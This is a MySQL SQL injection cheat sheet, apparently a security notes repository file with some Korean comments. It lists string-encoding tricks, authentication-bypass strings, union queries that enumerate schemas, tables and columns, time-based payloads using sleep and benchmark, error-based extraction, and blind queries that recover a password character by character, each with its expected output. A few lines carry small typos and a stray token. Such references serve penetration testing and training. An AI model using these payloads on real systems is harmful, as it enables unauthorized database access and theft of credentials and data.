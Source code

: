 # SQL injection

### Express string   
select admin;   
select 'ad''min'; -> ad'min   
select 'ad' 'min'; -> admin   
select 0x6162; -> ab   
select char(0x61, 0x62); -> ab   
select 0b110000101100010; -> ab   
select concat(char(0x61),char(0x62)); -> ab   
select mid(@@version,12,1); -> n 가젯   
select unhex(unhex(36313632)); -> ab   
<hr>

### Useful Functions
* string   
  * substring(), substr(), mid() # select mid('admin',3,2); -> mi   
  * left() # select left('admin',2); -> ad
  * right() # select right('admin',2); -> in
  * concat() # select concat('ad','min'); -> admin
  * group_concat() # select group_concat('ad','min'); -> admin
  * instr() # select instr('hi\~\~! hello!!!','hello'); -> 7
  * length() # select length('hello!'); -> 6
  * lpad() # select lpad('admin',1,1)='a'; -> TRUE
  * rpad() # select rpad('admin',1,1)='a'; -> True
  * ord() # select ord('a'); -> 97
  * ascii() # select ascii('a'); -> 97
  * hex() # select hex('a'); -> 0x61
  * char() # select char(0x61); -> a
* typecast
  * convert() # select convert('admin',binary(1)); -> a
  * cast() # select cast('admin' as char(1)); -> a
* etc
  * version() # select version(); -> 5.7.31-0ubuntu0.16.04.1 
  * user() # select user(); -> user@localhost
  * schema(), database() #select schema(); -> database_name
  * sleep() # select sleep(3); -> 1 row in set (3.00 sec)
<hr>

### Basic SQL Injection
'   
' or '1==1'#   
' or '1'='1   
' or 1=1#
<hr>

### Union SQL Injection
union select schema_name from information_schema.schemata;   
union select table_name from information_schema.tables where table_schema="db_schema";   
union select table_name from information_schema.tables where table_schema=database();   
union select column_name from information_schema.columns where table_name="table_name";
<hr>

### Time-based SQL Injection
select 'a'='a' and sleep(1); # 1 row in set (1.00 sec)   
select 'a'='b' and sleep(1); # 1 row in set (0.00 sec)   
select 'a'='a' and benchmark(10000000,md5('a')); // 1 row in set (3.017 sec)   
select 'a'='b' and benchmark(10000000,md5('a')); // 1 row in set (1.565 sec)   
<hr>

### Error-based : Data extraction with error message
select * from users union select foo(); # FUNCTION test.foo does not exist   
select * from users where exp(~id); # DOUBLE value is out of range in 'exp(~\`test\`.\`users\`.\`id\`)'   
select * from users where extractvalue(1,concat(0x3a,version())); #XPATH systax error: '10.4.6-MariaDB'   
<hr>

### Error-based : Blind SQL Injection
서브 쿼리에서 2개 이상의 row를 리턴하면 에러가 발생하는 점을 이용해서 공격   
select if('a'='b',1,(select 1 union select 2)); # error -> Subquery returns more than 1 row
select if('a'='a',1,(select 1 union select 2)); ok   
select case when 1=1 then (select 1 union select 2) else 1 end; # error   
select case when 1=0 then (select 1 union select 2) else 1 end; # ok   

BIGINT overflow   
select ~0+(select 'a'='a'); # error -> ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '~0 + ('a' = 'a')'   
select ~0+(select 'a'='b'); # ok   

cot함수 인자로 False가 들어가면 에러가 발생하는 것을 이용해서 공격
select cot(1=0); # error (DOUBLE value is out of range in 'cot(1 = 0)')   
select cot(1=1); # ok   

order by 뒤에 숫자 늘리면서 에러로 컬럼 수 파악   
select * from users order by \[컬럼 개수\]; # 컬럼 개수 늘려가면서 에러로 개수 파악
select * from users order by 1; # ok   
select * from users order by 2; # ok   
select * from users order by 3; # error -> users 테이블의 컬럼 개수는 2개인 것   
<hr>

### Blind SQL Injection
Binary Search   
select * from users where username='admin' and ascii(substr(password,1,1))>79;
Bit 연산   
select * from users where username='admin' and substr(bin(ord(password)),1,1)=1;   
select * form users where username='admin' and substr(bin(ord(password)),2,1)=1;   
<hr>

### Filter Bypass
[Filter Bypass](https://github.com/zzsla/security/blob/main/cheat_sheet/SQL%20injection/Filter%20Bypass.md)
